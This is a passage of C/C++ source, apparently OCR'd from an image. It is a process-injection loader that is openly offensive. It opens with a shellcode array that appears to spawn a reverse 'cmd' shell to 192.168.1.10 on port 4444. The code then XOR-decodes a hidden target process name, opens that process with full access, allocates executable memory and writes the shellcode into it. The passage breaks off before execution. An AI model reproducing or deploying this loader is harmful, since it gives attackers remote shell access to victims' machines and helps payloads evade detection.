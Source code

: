 ```c
    "\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3"
    "\x3a\x49\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01"
    "\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58"
    "\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3"
    "\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a"
    "\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32"
    "\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff"
    "\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b"
    "\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f"
    "\xdf\xe0\xff\xd5\x97\x6a\x05\x68\xc0\xa8\x01\x0a\x68\x02"
    "\x00\x11\x5c\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
    "\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec\x68\xf0\xb5"
    "\xa2\x56\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57"
    "\x31\xf6\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01"
    "\x01\x8d\x44\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46"
    "\x56\x4e\x56\x56\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89"
    "\xe0\x4e\x56\x46\xff\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb"
    "\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c"
    "\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53"
    "\xff\xd5";
    };

    wchar_t encodedProcessName[] = { 
        L'\x04', L' ', L'\x0F', L'\x0F', L'_', L'\x0E', L'\x04', L'\x04', L'\x32', L'\x11', L'\0' 
    };

    size_t len = wcslen(encodedProcessName);
    wchar_t key = 0x5A;

    xorDecode(encodedProcessName, len, key);

    DWORD pid = GetProcessIdByName(encodedProcessName);

    if (pid == 0) {
        std::cout << "[-] Process not found.\n";
        return 1;
    }

    std::cout << "[+] Process found. PID: " << pid << std::endl;

    HANDLE processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    if (processHandle == NULL) {
        std::cout << "[-] Failed to open the process.\n";
        return 1;
    }
    std::cout << "[+] Process opened.\n";

    LPVOID remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (remoteBuffer == NULL) {
        std::cout << "[-] Failed to allocate memory.\n";
        return 1;
    }
    std::cout << "[+] Memory allocated at: " << remoteBuffer << std::endl;

    BOOL write = WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof(shellcode), NULL);
    if (!write) {
        std::cout << "[-] Failed to write to memory.\n";
        return 1;
    }
    std::cout << "[+] Shellcode written to memory.\n";

```